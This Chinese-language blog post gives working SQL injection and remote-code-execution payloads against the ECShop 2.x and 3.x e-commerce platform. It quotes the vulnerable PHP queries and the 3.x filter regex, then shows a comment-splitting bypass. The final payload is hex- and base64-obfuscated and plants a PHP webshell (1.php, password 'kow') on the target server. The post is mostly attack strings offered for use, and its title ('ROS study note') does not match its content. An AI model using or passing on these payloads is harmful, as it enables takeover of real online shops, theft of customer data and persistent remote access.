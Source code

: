 ```yaml
---
id: 5000
title: ROS study note
date: 2018-09-07T11:32:57+00:00
author: admin
layout: post
guid: http://www.ikow.cn/?p=5000
permalink: /ecshop-payload/
categories:
  - web
tags:
  - ecshop
  - sql injection
  - rce
  - payload
---
```

首先，感谢ringk3y的分析：http://ringk3y.com/2018/08/31/ecshop2-x%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/ 大家跟一遍代码基本上都能弄明白漏洞的原理，整个漏洞的构造还是很有意思的

然后网上公开的基本上都是2.x版本的payload，对于sql injection，除了文中提到的insert_ads，insert_bought_notes函数同样存在漏洞：
---
    $sql = 'SELECT u.user_name, og.goods_number, oi.add_time, IF(oi.order_status IN (2, 3, 4), 0, 1) AS order_status ' .
           'FROM ' . $GLOBALS['ecs']->table('order_info') . ' AS oi LEFT JOIN ' . $GLOBALS['ecs']->table('users') . ' AS u ON oi.user_id = u.user_id, ' . $GLOBALS['ecs']->table('order_goods') . ' AS og ' .
           'WHERE oi.order_id = og.order_id AND ' . time() . ' - oi.add_time < 2592000 AND og.goods_id = ' . $arr['id'] . ' ORDER BY oi.add_time DESC LIMIT 5';
---
注入点为id，这样我们构造payload可以为
---
554fcae493e564ee0dc75bdf2ebf94cabought_notes|a:2:{s:3:"num";i:1;s:2:"id";s:70:"1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";}
---

对于3.x版本的注入，唯一和2.x的区别在于$_echash的值变成了45ea207d7a2b68c49582d2d22adf953a，我们直接替换原来payload中的值即可：
---
45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:72:"0,1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";s:2:"id";i:1;}
---
或者
---
bought_notes|a:2:{s:3:"num";i:1;s:2:"id";s:70:"1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";}
---

对于3.x版本的rce或者是你想要读取数据库里面的信息，我们需要绕过3.x中的过滤（代码在safety.php中)，
先看下3.x中的过滤：
---
'sql'=>"[^\\{\\s]{1}(\\s|\\b)+(?:select\\b|update\\b|insert(?:(\\/\\*.*?\\*\\/)|(\\s)|(\\+))+into\\b).+?(?:from\\b|set\\b)|[^\\{\\s]{1}(\\s|\\b)+(?:create|delete|drop|truncate|rename|desc)(?:(\\/\\*.*?\\*\\/)|(\\s)|(\\+))+(?:table\\b|from\\b|database\\b)|into(?:(\\/\\*.*?\\*\\/)|\\s|\\+)+(?:dump|out)file\\b|\\bsleep\\([\\s]*[\\d]+[\\s]*\\)|benchmark\\(([^\\,]*)\\,([^\\,]*)\\)|(?:declare|set|select)\\b.*@|union\\b.*(?:select|all)\\b|(?:select|update|insert|create|delete|drop|grant|truncate|rename|exec|desc|from|table|database|set|where)\\b.*(charset|ascii|bin|char|uncompress|concat|concat_ws|conv|export_set|hex|instr|left|load_file|locate|mid|sub|substring|oct|reverse|right|unhex)\\(|(?:master\\.\\.sysdatabases|msysaccessobjects|msysqueries|sysmodules|mysql\\.db|sys\\.database_name|information_schema\\.|sysobjects|sp_makewebtask|xp_cmdshell|sp_oamethod|sp_addextendedproc|sp_oacreate|xp_regread|sys\\.dbms_export_extension)"
---
基本上想从数据库中通过select查询获取数据是不可能的（欢迎大家提供绕过的思路）
但是insert_ads的sql语句给我们绕过全局过滤带来了方便：
---
$sql  = 'SELECT a.ad_id, a.position_id, a.media_type, a.ad_link, a.ad_code, a.ad_name, p.ad_width, ' .
                    'p.ad_height, p.position_style, RAND() AS rnd ' .
                'FROM ' . $GLOBALS['ecs']->table('ad') . ' AS a '.
                'LEFT JOIN ' . $GLOBALS['ecs']->table('ad_position') . ' AS p ON a.position_id = p.position_id ' .
                "WHERE enabled = 1 AND start_time <= '" . $time . "' AND end_time >= '" . $time . "' ".
                    "AND a.position_id = '" . $arr['id'] . "' " .
                'ORDER BY rnd LIMIT ' . $arr['num'];
---
因为可以注入的地方有两处，分别是id和num，这时我们利用inline comment来同时构造payload，id的地方注入'union/*，num的地方注入*/select+....
关于如何使用comment来帮助我们的注入语句，可以参考：http://www.sqlinjection.net/comments/
然后拦截的正则规则中并没有单独拦截union，select，这样我们2.x的payload稍微改造下就又能使用了：
---
45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:273:"*/select 1,0x27756e696f6e2f2a,3,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152626132393358536b2f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:8:"'union/*";}[/code]
---
执行完之后会在user.php同目录下生成1.php的菜刀马，密码是kow

